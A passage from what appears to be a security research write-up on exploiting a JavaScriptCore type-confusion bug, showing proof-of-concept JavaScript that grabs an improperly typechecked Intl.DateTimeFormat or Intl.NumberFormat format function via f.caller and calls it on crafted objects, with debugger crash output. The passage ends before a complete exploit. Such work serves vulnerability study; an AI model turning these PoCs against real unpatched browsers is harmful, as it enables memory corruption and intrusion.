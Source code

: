 This bug is very similar to our earlier bug and originally I was confused as to why it was a separate p0 bug. Both bugs manifest in the same way, by giving you a non-properly-typechecked reference to a function, however the root cause that makes the bugs possible is different. In the `appendMemcpy` case this is due to a lack of checks on `use strict` code. This appears to be a “regular” type confusion, unrelated to `use strict`. These bugs, while different, are similar enough that they share a CVE and a fix.

So, with this understood can we use `Intl.DateTimeFormat` usefully to exploit `jsc`?

### Intl.DateTimeFormat Crash

What’s the outcome if we run that PoC?

```text
Thread 1 "jsc" received signal SIGSEGV, Segmentation fault.
…
$rdi   : 0xffff000077777777
...
 → 0x7ffff77a8960 <JSC::IntlDateTimeFormat::format(JSC::ExecState&,+0> cmp    BYTE PTR [rdi+0x18], 0x0
```

Ok, so we’re treating a NaN boxed integer as an object. What if we pass it an object instead?

```js
// ...
q.call({a: new Int64('0x41414141')});
```

Results in:

```text
Thread 1 "jsc" received signal SIGSEGV, Segmentation fault.
...
$rdi   : 0x0000000000000008
 ...
 → 0x7ffff77a4833 <JSC::IntlDateTimeFormat::initializeDateTimeFormat(JSC::ExecState&,+0> mov    eax, DWORD PTR [rdi]
```

Hmm.. this also doesn’t look immediately useful. As a last ditch attempt, reading the docs we notice there is a both an `Intl.DateTimeFormat` and an `Intl.NumberFormat` with a similar `format` call. Let’s try getting a reference to that function instead:

```js
load('utils.js')
load('int64.js');

var i = new Intl.NumberFormat();
var q;

function f(){
        q = f.caller;
        return 10;
}


i.format({valueOf : f});

q.call({a: new Int64('0x41414141')});
```
